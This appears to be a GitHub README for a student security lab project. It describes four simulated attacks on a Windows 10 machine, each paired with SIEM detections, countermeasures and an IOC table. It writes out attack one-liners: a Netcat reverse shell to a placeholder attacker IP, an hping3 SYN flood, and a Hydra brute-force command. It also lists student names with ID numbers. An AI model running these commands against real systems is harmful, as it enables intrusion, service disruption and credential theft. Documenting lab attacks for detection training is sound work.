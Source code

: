 # Cybersecurity Attack Simulations (SEC320 Group Project)

This project demonstrates four simulated cyber attacks performed in a controlled lab environment as part of **SEC320 (Incident Response & Security Operations)** at Seneca Polytechnic. Each attack was executed on a Windows 10 victim machine from a Kali Linux attacker and detected using **AlienVault OSSIM (SIEM)**.

## 👥 Team Members
- Md Jonayed Hossain (130870231)  
- Gazi Mohd Mazdi (169977238)  
- Nur Mohammed Rasel (153510235)  
- Md Zasim Hossain (155153224)  

## ✨ Attacks Simulated
### 🔍 A1. Active OS Fingerprinting (Nmap)
- **Tool:** Nmap (`sudo nmap -A -T4 <target>`)  
- **Goal:** Identify OS and open services on a Windows 10 system.  
- **Detection:** OSSIM detected aggressive Nmap scanning (`ET SCAN Nmap`).  
- **Countermeasures:** IDS rules, firewall hardening, service banner obfuscation, honeypots.

---

### 🖥️ A2. Unauthorized Access (Netcat Reverse Shell)
- **Tool:** Netcat (`nc.exe <attacker_IP> 4444 -e cmd.exe`)  
- **Goal:** Gain a reverse shell from Windows → Kali.  
- **Outcome:** Attacker gained shell access and created a backdoor admin user.  
- **Detection:** OSSIM Snort alert (`ET ATTACK_RESPONSE Net User Command Response`).  
- **Countermeasures:** Application whitelisting, EDR, firewall rules, SIEM monitoring.

---

### 🌐 A3. (D)DoS Attack – SYN Flood
- **Tool:** hping3 (`sudo hping3 -S --flood -p 445 <target_IP>`)  
- **Goal:** Overwhelm Windows TCP stack by flooding SYN packets on port 445.  
- **Detection:** OSSIM alert (`ET SCAN Behavioral Unusual Port 445 traffic`).  
- **Countermeasures:** Enable SynAttackProtect in Windows registry, rate limiting, DDoS protection services.

---

### 🔑 A4. Brute Force Attack (Hydra)
- **Tool:** Hydra (`hydra -l admin -P rockyou.txt <target_IP> http-post-form ...`)  
- **Goal:** Crack weak DVWA login credentials through repeated attempts.  
- **Detection:** OSSIM (via OSSEC logs) flagged multiple authentication failures.  
- **Countermeasures:** Account lockout policies, rate limiting, MFA, stronger passwords, WAF rules.

---

## 📊 Indicators of Compromise (IOCs)
| ID | Attack               | IOC/Log Event                                      | Source IP       | Destination IP | Service/Port | Severity |
|----|----------------------|----------------------------------------------------|-----------------|----------------|--------------|----------|
| A1 | Nmap OS Scan         | `OSSIM: Nmap OS Scan Detected`                     | 192.168.116.130 | 192.168.116.129| 80, 443, 3306| Medium   |
| A2 | Netcat Reverse Shell | `OSSIM: ET ATTACK_RESPONSE Net User Command`       | 192.168.153.129 | 192.168.153.135| 4444         | High     |
| A3 | SYN Flood Attack     | `OSSIM: ET SCAN Unusual Port 445 Traffic`          | 192.168.155.129 | 192.168.155.128| 445/TCP      | Low      |
| A4 | Hydra Brute Force    | `OSSIM: User Authentication Failure (OSSEC logs)`  | 192.168.100.128 | 192.168.100.129| 80/HTTP      | Low      |

---

## 📖 Learning Outcomes
- Hands-on practice simulating real-world cyber attacks in a safe lab.
- Experience with **OSSIM SIEM** to detect reconnaissance, intrusion, DoS, and brute-force activity.
- Understanding of **countermeasures** and **incident response** workflows.
- Team collaboration on documenting and presenting security incidents.

## 👤 Author Contributions
- **Md Jonayed Hossain** → Nmap OS Fingerprinting  
- **Nur Mohammed Rasel** → Netcat Reverse Shell  
- **Md Zasim Hossain** → SYN Flood (hping3)  
- **Gazi Mohd Mazdi** → Brute Force Attack (Hydra)  

---

## 📄 License
This project is released under the MIT License. See [LICENSE](LICENSE) for details.
